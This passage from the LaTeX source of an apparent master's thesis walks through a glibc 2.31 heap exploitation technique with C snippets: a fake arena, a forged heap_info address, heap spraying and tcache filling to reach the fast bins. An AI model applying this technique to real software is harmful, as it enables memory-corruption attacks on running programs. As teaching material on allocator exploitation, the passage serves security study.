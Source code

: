 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\fb{fast bins}
\begin{document}
The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000); 
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF; 
fake_arena[0x88a] = 0xFF; 
\end{lstlisting}

Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}

The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */ 
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach , so, we need a chunk in range of the \fb{} chunk , also, a pointer to chunk : 

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like fastbin\_dup all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}	
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}
\end{document}
